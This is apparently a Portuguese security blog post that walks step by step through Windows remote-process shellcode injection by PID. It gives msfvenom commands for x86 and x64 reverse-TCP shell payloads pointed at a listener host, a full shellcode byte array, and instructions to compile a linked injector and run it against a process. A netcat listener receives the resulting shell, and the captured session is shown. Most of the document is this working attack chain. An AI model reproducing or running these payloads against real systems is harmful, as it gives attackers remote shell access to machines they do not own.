 ```yaml
---
title: Injeção de Código - Injection Remote Process PID
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-RemoteProcess.git


**Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process**

>Essa também é uma o clássica Injeção de Shellcode que
no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do módulo/processo é a referencia que utilizamos para injetar o shellcode.

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme a seguir :


#### Step 1

- Gerar os bytes do shellcode para Windows x86, apontando para o IP e Porta do computador que vai ganhar o acesso.



```ruby
msfconsole
msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```


#### Step 2

- Abrir o código do link mencionado no inicio, que tem o
código responsável por executar os bytes gerados acima.


```text
injectremotePID.cpp
```

- Copiar os bytes gerados pelo msfvenom no Step 1, em seguida devemos colar esses bytes no conteúdo da variável *unsigned char shellcode[] = ""* do código 'injectremotePID.cpp' e depois compilar-lo.

- Ao compilar o software com sucesso teremos o executável pronto para uso.


```text
injectremotePID.exe
```

#### Step 3

- Anotar o PID do processo/módulo em que iremos injetar o shellcode.


```text
para vermos o PID podemos usar o "ProcessHacker" ou "procexp"
```

- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador com o IP que também colocamos como argumento no msfvenom para gerar o shellcode :


```bash
nc -vlp 1234
```

- Executar o binário que injeta o shellcode passando o PID anotado acima como argumento para o programa injetor :


```cmd
injectremotePID.exe 2004
```

- Feito isso, já devemos ganhar o acesso no alvo.


```bash
nc -vlp 1234
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```
